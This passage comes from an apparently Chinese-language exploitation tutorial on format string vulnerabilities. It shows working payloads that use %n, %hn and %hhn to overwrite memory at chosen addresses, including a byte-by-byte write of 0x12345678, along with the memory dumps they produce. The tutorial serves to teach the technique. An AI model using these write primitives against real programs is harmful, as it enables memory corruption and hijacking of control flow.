 使用上面覆盖内存的方法，值最小只能是 4，因为单单地址就占去了 4 个字节。那么我们怎样覆盖比 4 小的值呢？

再想一下，前面的输入中，地址都位于格式字符串之前，这样做真的有必要吗，能否将地址放在中间。我们来试一下，使用格式字符串 ：

	"AA%15$nA"+"\x38\xd5\xff\xff"
开头的 `AA` 占两个字节，即将地址赋值为 `2`，中间是 `%15$n` 占 5 个字节，这里不是 `%13$n`，因为地址被我们放在了后面，在格式字符串的第 15 个参数，后面跟上一个 `A` 占用一个字节。于是前半部分总共占用了 2+5+1=8 个字节，刚好是两个参数的宽度，这里的 8 字节对齐十分重要。最后再输入我们要覆盖的地址 `\x38\xd5\xff\xff`。

#### 大数值的内存覆盖

说完了数字小于 4 时的覆盖，接下来说说大数字的覆盖。前面的方法教我们直接输入一个地址的十进制就可以进行赋值，可是，这样占用的内存空间太大，往往会覆盖掉其他重要的地址而产生错误。其实我们可以通过长度修饰符来更改写入的值的大小：

```c
char c;
short s;
int i;
long l;
long long ll;

printf("%s %hhn\n", str, &c);       // 写入单字节
printf("%s %hn\n", str, &s);        // 写入双字节
printf("%s %n\n", str, &i);         // 写入4字节
printf("%s %ln\n", str, &l);        // 写入8字节
printf("%s %lln\n", str, &ll);      // 写入16字节
```

试一下：

```
$ python2 -c 'print("A%15$hhn"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88888801      0xffffffff

$ python2 -c 'print("A%15$hnA"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x88880001      0xffffffff

$ python2 -c 'print("A%15$nAA"+"\x38\xd5\xff\xff")' > text
0xffffd530:     0xffffd564      0x00000001      0x00000001      0xffffffff
```

于是，我们就可以逐字节地覆盖，从而大大节省了内存空间。这里我们尝试写入 `0x12345678` 到地址 `0xffffd538`：

	"\x38\xd5\xff\xff"+"\x39\xd5\xff\xff"+"\x3a\xd5\xff\xff"+"\x3b\xd5\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn"

其中前四个部分是 4 个写入地址，占 4*4=16 字节，后面四个部分分别用于写入十六进制数，由于使用了 `hh`，所以只会保留一个字节： `0x78`（16+104=120 -> 0x78）、`0x56`（120+222=342 -> 0x0156 -> 56）、`0x34`（342+222=564 -> 0x0234 -> 0x34）、`0x12`（564+222=786 -> 0x312 -> 0x12）。

## x86-64 中的格式化字符串漏洞

在 x64 体系中，多数调用惯例都是通过寄存器传递参数。在 Linux 上，前六个参数通过 `RDI`、`RSI`、`RDX`、`RCX`、`R8` 和 `R9` 传递；而在 Windows 中，前四个参数通过 `RCX`、`RDX`、`R8`和 `R9` 来传递。

还是上面的程序，但是这次我们把它编译成 64 位：

```
gcc -fno-stack-protector -no-pie fmt.c

```
